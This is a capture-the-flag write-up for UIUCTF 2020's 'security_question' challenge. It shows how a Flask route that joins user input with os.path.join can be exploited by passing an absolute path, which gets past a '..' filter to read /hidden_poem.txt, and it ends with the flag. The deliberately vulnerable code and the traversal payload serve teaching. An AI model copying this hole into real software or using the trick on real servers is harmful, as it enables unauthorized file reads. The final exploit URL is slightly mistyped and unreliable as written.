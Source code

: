 # UIUCTF 2020
## security_question

_Someone just asked a very interesting question online. Can you help them solve their problem?_

This challenge was made by Husincostan.

The challenge link `https://security.chal.uiuc.tf/` brings us to a fake
StackOverflow page with the poster complaining that their friend was able to
access the `hidden_poem.txt` file in the root directory (`/`) on the server. They post the following code snippet looking for help:

```python
@app.route('/getpoem')
def get_poem():
    poemname = request.args.get('name')

    if not poemname:
        return 'Please send a name query:\n' + str(os.listdir('poems')), 404

    poemdir     = os.path.join(os.getcwd(), 'poems')
    poempath    = os.path.join(poemdir, poemname)

    if '..' in poemname:
        return 'Illegal substring detected.', 403

    if not os.path.exists(poempath):
        return 'File not found.', 404

    return send_file(poempath)
```

In this Python code we see a route defined `/getpoem` assigned to the `get_poem()` function.

```
@app.route('/getpoem')
```
We also see `poemname` being assigned as query parameter.

```
poemname = request.args.get('name')
```

If we try the endpoint `https://security.chal.uiuc.tf/getpoem?name` we get the following response:

```
Please send a name query: ['rise.txt', 'daddy.txt', 'tyger.txt', 'road.txt']
```

The Python code that causes the trouble here is in the joining of paths.

```
poemdir     = os.path.join(os.getcwd(), 'poems')
poempath    = os.path.join(poemdir, poemname)
```

In the 2nd line we see that the `poemdir` directory and `poemname` file are
being joined to created a path. If we evalute this line of code in a REPL, we
get the following:

```
>>> import os
>>> poemdir = os.path.join(os.getcwd(), 'poems')
>>> poemdir
'/home/user/poems'
```

We know that `poemdir` is the `poems` subdirectory inside the current working directory. Keep in mind that our interest is in the root `/` directory to get `hidden_poem.txt`. Another join is performed is the name of the file.

```
>>> poemname = "poem.txt"
>>> poempath = os.path.join(poemdir, poemname)
>> poempath
'/home/user/poems/poem.txt'
```

Because of the way that `os.path.join()` works, if we set `poemname` to `/hidden_poem.txt`, we won't get:

```
/home/user/poems//hidden_poem.txt
```

Instead we'll actually just get:

```
/hidden_poem.txt
```

Which is the path we want. We can try passing this in as the query parameter:

`https://security.chal.uiuc.tf/getpoem/name?=/hiddenpoem.txt`

And we get the flag!

```
uiuctf{str_join_is_weird_in_python_3}
```



